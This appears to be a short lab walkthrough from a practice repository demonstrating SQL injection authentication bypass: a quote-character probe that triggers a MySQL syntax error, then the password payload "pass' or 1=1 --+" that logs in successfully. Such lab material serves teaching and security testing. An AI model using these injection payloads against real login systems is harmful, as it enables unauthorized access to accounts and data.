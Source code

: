 # Authentication Bypass [SQL Injection]

Target: http://**IP**/SQL-Injection/Authentication-Bypass-Variant-1/

<img src="./Initial.PNG">

**Input:** <br>
username: admin' <br>
password: pass

**Output:** <br>
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'pass'' at line 1

<br>

<img src="./SQL syntax Error-1.PNG"> <br>

**Input:** <br>
username: admin <br>
password: pass' or 1=1 --+

**Output:** <br>
Logged In Successfully 

<img src="./Auth bypass success.PNG"> <br>


